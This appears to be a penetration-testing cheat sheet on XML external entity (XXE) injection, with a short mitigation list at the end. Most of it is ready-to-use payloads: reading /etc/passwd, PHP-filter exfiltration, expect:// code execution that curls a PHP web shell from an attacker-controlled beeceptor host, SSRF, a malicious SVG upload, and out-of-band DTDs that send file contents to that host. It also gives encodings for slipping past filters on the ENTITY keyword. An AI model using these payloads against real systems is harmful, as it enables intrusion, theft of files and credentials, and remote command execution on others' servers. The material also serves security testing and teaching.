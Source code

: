 ```yaml
---
description: https://app.beeceptor.com/
---
```


# XML external entity (XXE) injection

<figure><img src="../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

#### Identifying

1. **Identify XML User Input**: Look for web pages or forms that accept XML input from users. This can include forms that submit data in XML format to the server.
2. **Inspect Input Filtering and Sanitization**: Check if the application applies proper input filtering or sanitization to XML input. Lack of filtering or sanitization increases the risk of XXE vulnerabilities.
3. **Observe Response Handling**: Pay attention to how the application handles user input in the response. If the application reflects XML elements back to the user without encoding, it may be vulnerable to XXE.
4. **Analyze DTD Declaration**: Determine if the XML input includes a Document Type Definition (DTD) declaration. If present, it may allow for entity declaration and expansion, leading to XXE.
5. **Add Custom Entity**: Inject a custom entity into the XML input to test for XXE. This can be done by adding a DTD declaration and defining a new entity within it.
6. **Test Entity Replacement**: Verify if the application replaces the custom entity with its defined value in the response. If the value of the entity is reflected back, it indicates potential XXE vulnerability.
7. **Check Content-Type**: Even if the application primarily uses JSON format, try changing the Content-Type header to application/XML. Some applications may accept XML data even if they primarily handle JSON.
8. **Convert JSON to XML**: If necessary, convert JSON data to XML format using online tools. Submit the XML data to the application and test for XXE vulnerabilities as described above.

## Error Based XXE

### Read File

```xml
<!--Linux -->
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read  SYSTEM "file:///etc/passwd">]>
<check>
    <proid>&read;</proid>
</check>
```

<figure><img src="../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

## Blind Data Exfiltration

### PHP Filter&#x20;

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read SYSTEM "php://filter/convert.base64-encode/resource=/index.php"> ]>
<Check><proid>&read;</proid></Check>
```
{% endcode %}

## Code Execution

PHP Wrapper <mark style="color:red;">**expect://ls**</mark>

```bash
echo '<?php system($_REQUEST['cmd'])?>' > shell.php
#up server 
python3 -m http.server 80 
```

to execute&#x20;

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'https://h3ckt00r.free.beeceptor.com/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

{% hint style="warning" %}
The <mark style="color:red;">**expect**</mark> module is not enabled/installed on modern PHP servers by default, so this attack may not always work.
{% endhint %}

## SSRF Attack

```sml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://sub.vulnerable.com/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### CDATA with XXE and SSRF

```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [ <!ENTITY read SYSTEM "https://h3ckt00r.free.beeceptor.com">]>
    <root>
        <data><![CDATA[&read;]]></data>
    </root>

```

## File Upload

{% code overflow="wrap" %}
```xml
<!-- exploit.svg -->

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

### OUT-OF\_BAND (OOB)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY % read SYSTEM "https://h3ckt00r.free.beeceptor.com/xxe.dtd" > ]>

```

in Server

{% code overflow="wrap" %}
```xml
<!DOCTYPE h3ckt00r [ <!ENTITY % read SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<!ENTITY % test "<!ENTITY &#x25; snedfile SYSTEM 'https://h3ckt00r.free.beeceptor.com/?x=%read;'>">
%test;
%sendfile;
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

### Automated OOB Exfiltration

{% code overflow="wrap" %}
```bash
0xN1ghtM4r3@htb[/htb]$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending a request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
{% endcode %}



## How to Find XEE

**● XML file upload (e.g config files)**&#x20;

**● XML input fields**&#x20;

**● XML based APIs**&#x20;

**● XML based files (RSS, SVG)**

## how to bypass if filters " ENTITY " word

### Case1: **Manipulation (Uppercase/Lowercase)**

```xml
<!eNtItY h3ckt00r SYSTEM "file:///etc/passwd">
```

### Case2: Encoding

* **HTML encoding**:

```xml
<!&#69;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#69; -->
```

* Hexadecimal enconding

```xml
<!&#x45;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#x45; -->
```

* Whitespace Bypasses (Extra Spaces or Newlines) Or using Comment

```xml
<!EN TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR --> 
<!EN
TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR using Comment -->
<!E<!-- Comment -->NTITY xxe SYSTEM "file:///etc/passwd">
```

* CDATA

```xml
<!DOCTYPE root [
  <!ENTITY % data "<![CDATA[ENTITY]]">
  %data;
]>
```



## **Mitigation and** Prevention

* Avoiding Outdated Components
* Using Safe XML Configurations
  * Disable referencing custom <mark style="color:red;">**`Document Type Definitions (DTDs)`**</mark>
  * Disable referencing <mark style="color:red;">**`External XML Entities`**</mark>
  * Disable <mark style="color:red;">**`Parameter Entity`**</mark><mark style="color:red;">** **</mark><mark style="color:red;">**processing =>**</mark>&#x20;
    * ```php
      libxml_disable_entity_loader(true);
      ```
  * Disable support for <mark style="color:red;">**`XInclude`**</mark>
  * Prevent <mark style="color:red;">**`Entity Reference Loops`**</mark>
